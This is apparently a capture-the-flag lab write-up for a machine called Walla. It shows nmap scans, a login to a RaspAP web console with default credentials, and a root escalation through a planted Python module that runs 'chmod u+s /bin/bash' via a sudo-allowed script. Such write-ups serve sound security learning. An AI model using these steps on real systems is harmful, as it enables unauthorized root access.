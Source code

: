 # Walla

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:22 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown
```

Telnet is enabled, which is always great. Ran a detailed `nmap` scan too:

```
$ sudo nmap -p 22,23,25,53,422,8091,42042 -sC -sV -O --min-rate 3000 192.168.197.97
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:24 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
```

### Weak Creds --> Web Console

I took a look at port 8081 first, and found that it had a HTTP login:

<figure><img src="../../../.gitbook/assets/image (162) (4).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:secret` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (98) (7).png" alt=""><figcaption></figcaption></figure>

This is running RaspAP, which is a wireless router software. We can find the version by heading to 'About RaspAP':

<figure><img src="../../../.gitbook/assets/image (7) (10).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits for this:

```
$ searchsploit raspap       
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50224.py
----------------------------------------------------------- ---------------------------------
```

However, we don't actually need any exploits because within the 'System' tab, there's a Console present:

<figure><img src="../../../.gitbook/assets/image (161) (5).png" alt=""><figcaption></figcaption></figure>

A reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (6) (15).png" alt=""><figcaption></figcaption></figure>

Grab the user flag from the home directory of `walter`.

## Privilege Escalation

### Sudo Privileges --> Module RCE

I ran a `linpeas.sh` scan to enumerate for me. Here's the interesting output:

```
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
    
[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d 
You have write privileges over /lib/systemd/system/raspapd.service
```

The `wifi_reset.py` file looks the easiest to exploit:

```
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

This is pretty easy to exploit. We can create a script `wificontroller.py` and place it within the `/home/walter` directory. Here's the contents of it:

```python
import os
os.system("chmod u+s /bin/bash")
```

Then, we can attempt to run the `wifi_reset.py` script and easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (17) (1) (2).png" alt=""><figcaption></figcaption></figure>
